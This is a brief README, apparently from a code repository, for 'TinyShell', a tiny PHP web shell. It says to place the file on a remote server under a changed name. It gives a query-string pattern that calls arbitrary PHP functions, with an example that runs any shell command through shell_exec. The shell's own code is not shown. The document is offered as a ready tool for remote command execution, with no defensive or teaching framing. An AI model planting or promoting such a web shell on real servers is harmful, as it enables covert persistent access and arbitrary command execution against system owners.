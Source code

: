**TinyShell is a tiny PHP shell. (0.1kb to be exact)**


## Installation
    
To install TinyShell, just place tinyshell.php on a remote server. Make sure you change the name of tinyshell.php!

## Usage

        tinyshell.php?_=<php function>&__=<parameters>

## Examples

        tinyshell.php?_=shell_exec&__=<any shell command goes here>
